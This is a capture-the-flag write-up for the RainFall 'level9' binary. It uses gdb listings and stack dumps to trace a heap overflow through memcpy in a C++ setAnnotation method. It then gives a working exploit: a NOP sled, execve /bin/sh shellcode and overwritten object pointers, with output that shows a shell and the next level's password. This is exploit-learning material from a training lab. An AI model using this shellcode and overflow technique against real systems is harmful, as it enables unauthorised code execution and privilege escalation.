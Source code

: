 1. The fact that it is c++ code qith class and object makes it a bit tricky.

2. `i functions`

```
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x08048464  _init
0x080484b0  __cxa_atexit
0x080484b0  __cxa_atexit@plt
0x080484c0  __gmon_start__
0x080484c0  __gmon_start__@plt
0x080484d0  std::ios_base::Init::Init()
0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
0x080484e0  __libc_start_main
0x080484e0  __libc_start_main@plt
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
0x08048770  __libc_csu_init
0x080487e0  __libc_csu_fini
0x080487e2  __i686.get_pc_thunk.bx
0x080487f0  __do_global_ctors_aux
0x0804881c  _fini
```

3. Program and state of the stack before calling setAnnotation:

- Basically, the 2 calls to `<_Znwj@plt>` (<+35> & <+69>)are calls to new, with an allocation size of **0x6c** (will be passed to malloc in constructor).
- Check in the above code (`i functions`), the function address is the one for `operator new(unisgned int)`
- They each allow for the creation, ON THE HEAP, of a new N object
- Then we have also 2 calls to `0x80486f6 <_ZN1NC2Ei>` which is the memory address of the N constructor (check above), with first **0x5** and the **0x6** as parameters.
- So we have two pointers to two N objects. We'll call them **n** and **m**.

lines <+58> and <+92>, we can see that n is stored at `$esp+0x1c` and m at `$esp+0x18` :

```
(gdb) x/10wx $esp
0xbffff6b0:	0x0804a008	0xbffff8c4	0xbffff780	0xb7d79e55
0xbffff6c0:	0x0804a078	0x0804a008	0x0804a078	0x0804a008
0xbffff6d0:	0x08048770	0xb7eebff4
```

so n points to memory location **0x0804a008** and m to **0x0804a078**

4. The call to setAnnotation

- Then the `setAnnotation` member function is called on the n object, with argument `argv[1]`.
- How do we know it's on n? because if we break right before the call to setAnnotation and check the stack we have :

```
(gdb) x/2wx $esp
0xbffff6b0:	0x0804a008	0xbffff8c4
(gdb) x/s 0xbffff8c4
0xbffff8c4:	 "coucou"
```

We can see that the first argument is n, and the second argument is our argv[1] (which here as a test we set as "coucou").

- The setAnnotation function call `strlen` on its string argument (**ebp+0xc** in setAnnotation is **esp+0x4** in main, as eip and ebp are pushed onto the stack in between).
- Then it gets a pointer `ptr = value of ptr + 0x4 = 0x0804a008 + 0x4 = 0x0804a00c`
- And copies at this address the content of the string (argv[1]).


5. After setAllocation, in the main, the program calls the + operator function of m on n.
- It has to dereference m two times (lines <140> and <142>) to get to the first method which is the + operator.
- It stores the function in **edx** and calls it.

6. Our exploit:

We should use the **memcpy** in `setAnnotation` to make the call to `edx` calls a shellcode.

- So our memory where the content of argv[1] will be copied is : **0x0804a00c**
- the m pointers points to the memory location : **0x0804a078**
- => so **0x6c** or **108** bytes ahead of our pointer!

But m is dereferenced two times. So at this position we will have to write an address, which will points to another address in the buffer, which will again points to our shellcode!

- THe shellcode is 45 bytes long. The address that will point to it is 4 bytes long.
- `108 - 45 - 4 = 59 bytes` => 59 bytes of random code (we'll use the NOP opcode). Then we will erase m value with the value of the beginning of our buffer : **0x0804a00c**
- The first address will point to somewhere randomly in the NOP suite of instructions in the buffer. As the buffer starts at **0x0804a00c**, **0x0804a01c**, which is 16 bytes ahead, is a good candidate.

Here is the exploit:

```
level9@RainFall:~$ ./level9 $(python -c 'print("\x1c\xa0\x04\x08" + "\x90" * 59 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x0c\xa0\x04\x08")')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

